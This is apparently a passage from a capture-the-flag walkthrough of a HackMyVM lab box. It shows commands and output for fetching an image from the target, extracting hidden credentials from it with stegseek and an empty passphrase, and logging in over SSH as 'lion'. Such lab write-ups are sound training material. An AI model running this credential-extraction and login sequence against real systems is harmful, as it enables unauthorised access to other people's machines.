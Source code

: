 `curl -s "http://192.168.56.139/index.php?tag=beauty"`:
```     
SEE HMV GALLERY!
<br>
 <img src=dsa32.jpg><br> ←
<!-- Need to solve tag parameter problem. -->
```

`wget http://192.168.56.139/dsa32.jpg`:
```
--2024-10-11 12:35:08--  http://192.168.56.139/dsa32.jpg
Connecting to 192.168.56.139:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4164096 (4.0M) [image/jpeg]
Saving to: ‘dsa32.jpg’

dsa32.jpg                                       100%[====================================================================================================>]   3.97M  --.-KB/s    in 0.07s   

2024-10-11 12:35:08 (55.6 MB/s) - ‘dsa32.jpg’ saved [4164096/4164096] ←
```

`file ./dsa32.jpg`:
```
./dsa32.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 72x72, segment length 16, baseline, precision 8, 4000x6016, components 3
```

`binwalk ./dsa32.jpg`:
```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
```

`stegseek ./dsa32.jpg`:
```
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "" ←
[i] Original filename: "yes.txt". ←
[i] Extracting to "dsa32.jpg.out".
```

`file ./yes.txt`:
```
./yes.txt: ASCII text ←
```

`cat ./yes.txt`:
```
lion/shel0vesyou ←
```

`ssh lion@192.168.56.139`:
```
lion@192.168.56.139's password: ←
Linux art 5.10.0-16-amd64 #1 SMP Debian 5.10.127-2 (2022-07-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Oct 11 12:41:55 2024 from 192.168.56.118
```
